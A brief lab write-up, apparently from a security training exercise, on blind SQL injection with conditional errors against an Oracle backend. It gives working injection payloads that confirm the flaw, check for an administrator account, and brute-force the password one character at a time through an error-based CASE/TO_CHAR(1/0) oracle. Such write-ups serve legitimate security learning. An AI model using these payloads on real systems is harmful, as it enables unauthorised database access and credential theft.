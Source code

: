 # Lab 12 - Blind SQL injection with conditional errors
 <br>
since this oracle database we will use different information sechame and operators <br> 

## 1) Confirm that the parameter is vulnerable to blind SQLi
by using payload <br>
' || (select '' from dual) || '  <br>
the response have no error code which is okay  <br>
if we try something wrong i see error <br>
like ' || (select '' from dualsaasaasasassa) || ' <br>

## 2) Confirm that we have a users and administrator user in table
' || (select '' from users where rownum =1) || '  <br>
we have no error <br>
then  <br>
' || (select '' from users where username='administrator') || '  <br>
there's no error <br>
 <br>
##  3) bruteforce the password character by character
we started to bruteforce the password index and every characterby burp intruder
3'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||' <br>
 <br>
![image](https://github.com/user-attachments/assets/846b2816-119f-4bf7-b615-9175819904f8)
